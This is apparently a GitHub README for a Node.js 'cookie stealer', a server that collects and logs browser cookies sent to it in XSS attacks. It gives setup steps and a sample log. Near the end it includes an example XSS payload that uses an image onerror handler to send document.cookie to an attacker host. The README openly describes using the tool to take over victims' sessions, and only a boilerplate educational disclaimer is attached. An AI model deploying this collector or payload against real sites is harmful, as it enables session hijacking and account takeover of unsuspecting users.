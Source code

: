 # Node Cookie Stealer
The Node cookie stealer is a tool that can be used in penetration testing and XSS attacks to steal browser cookies from victims. The tool works by setting up a server that listens for incoming requests with a specific cookie value. When a request is received, the tool logs various information about the request, including the date and time, client IP address, user agent, referer, and cookie value, to a file.

This tool can be used by attackers to steal sensitive information, such as session tokens and authentication credentials, from unsuspecting users. By stealing a user's browser cookies, an attacker can gain unauthorized access to the user's account and perform actions on their behalf.

## Usage
1. Clone Project
```
git clone https://github.com/TheWation/NodeCookieStealer
```

2. Install Node.js on your machine if you haven't already. You can download the latest version of Node.js from the official website: https://nodejs.org/en/download/

3. Create a new directory for your project and navigate into it using a terminal or command prompt.

4. Create a new file called app.js and copy the Node.js code into it.

5. Open a terminal or command prompt in the project directory and run the following command to install the required dependencies:

```bash
npm install express luxon
```
Run the following command to start the server:
```bash
node app.js
```
In your web browser, visit http://localhost:3000/c/your-cookie-value, replacing your-cookie-value with the value of the cookie that you want to log. For example, if the cookie value is ABC123, you would visit http://localhost:3000/c/ABC123.

The server will log the date and time, client IP address, user agent, referer, and cookie value to the cookies.txt file in the project directory.
```
[+] Date: 2022/10/03 15:30:45
[+] IP: 127.0.0.1
[+] UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
[+] Referer: http://localhost:3000/
[+] Cookies: ABC123
---
```
The server will also return a response with a status code of 200 if the request was successful, or a status code of 500 if there was an error writing to the file.

You can repeat step 6 with different cookie values to log additional data to the file.

To stop the server, press CTRL+C in the terminal where it is running.

## Example Payload
```
https://pentest.target/?name=<img src=x onerror=this.src='http://evil-website.com/input.php?cookie='+document.cookie>
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.